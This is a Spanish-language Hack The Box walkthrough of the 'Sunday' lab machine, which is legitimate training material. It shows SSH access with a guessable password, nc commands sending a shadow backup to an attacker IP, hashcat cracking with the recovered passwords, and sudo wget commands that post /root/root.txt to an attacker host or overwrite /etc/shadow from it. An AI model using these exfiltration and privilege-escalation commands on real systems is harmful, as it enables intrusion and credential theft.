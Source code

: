 # Sunday

## NMAP

Nos encontramos con varios puertos abiertos el que nos llama la atencion es el 79. Estuve enumerando otros protocolos pero no encontre nada


![image](https://github.com/gecr07/Sunday-HTB/assets/63270579/5c96a38b-990e-4d74-9e4c-c59001160e63)

> El protocolo Finger es un protocolo de red que se utilizaba originalmente para obtener información sobre los usuarios de un sistema remoto. 

Lo que he visto es que simpre hay te intentar evitar la enumeracion de SSh que sea la ultima opcion es muy lenta.

## RCE

Tenemos tres usuarios que encontramos con el finger root, sammy y sunny. Es importante que este check se haga para todas las maquinas sobre todo para las viejas 

***1. Checar si el password de un servicio ssh no es el nombre de la maquina***
***2. Checar si el nombre de la maquina no sea un subdominio***

En este caso el password si fue el nombre de la maquina.

```
ssh sunny@10.129.64.41 -p 22022

passwd:sunday
```

## Priv Escalation

En el bash history encontramos un shadow.backup

![image](https://github.com/gecr07/Sunday-HTB/assets/63270579/9b445f9b-1a74-4507-bc34-3e6402cc1bfe)


Entonces si tenemos el shadow y podemos leer el /etc/passwd se puede crackear el password de otros usuarios...

![image](https://github.com/gecr07/Sunday-HTB/assets/63270579/764daca6-63ae-4f1e-ae24-8b2d2c4b4cbc)


Nos compartimos el shadow

```
nc 10.10.14.57 1234 < /backup/shadow.backup

nc -lvnp 1234 > password.txt    

unshadow password.txt shadow.txt > un.txt


```

### Hashcat

Para saber el modo fijate en los $ 

![image](https://github.com/gecr07/Sunday-HTB/assets/63270579/384ac6ca-fbe2-4855-ba73-1935c8d0f8c4)

![image](https://github.com/gecr07/Sunday-HTB/assets/63270579/a49afbe4-a1f3-4f3b-884c-2a4e2ef61a52)


```
hashcat -m 7400 -a 0 un.txt /usr/share/wordlists/rockyou.txt
```


![image](https://github.com/gecr07/Sunday-HTB/assets/63270579/972c6474-d9c6-47d2-8354-8b428a7b4ae0)


```
$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:cooldude!
$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:sunday

```

Nos conectamos por ssh pero ahora con el usuario sammy.


![image](https://github.com/gecr07/Sunday-HTB/assets/63270579/da30fc58-3814-490d-81be-4703ada4da49)


Ya con esto tenemos una via potencial para ser root o leer la flag.

```
sudo wget --input-file /root/root.txt
```

Tambien podemos mandar el archivo dentro de una peticion post.

```
sudo wget --post-file /root/root.txt http://10.10.14.57:443/

## attacker

nc -lvnp 443 

```

Otra manera es sobre escribir el archivo shadow para que root tenga el mismo passwd que sunny

```
root:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
mysql:NP:::::::
openldap:*LK*:::::::
webservd:*LK*:::::::
postgres:NP:::::::
svctag:*LK*:6445::::::
nobody:*LK*:6445::::::
noaccess:*LK*:6445::::::
nobody4:*LK*:6445::::::
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::

## Metemos lo mismo que sunny solo cambiamos el usuario a root y la contraseña sera la misma.

 sudo wget -O /etc/shadow http://10.10.14.57:8081/shadow 
```

Y la que yo use es ver en GTOBINs y ahi nos regresa una shell root.

## Bibliografia 

> https://www.zonasystem.com/2020/06/password-cracking-en-linux-john-the-ripper-hashcat.html




























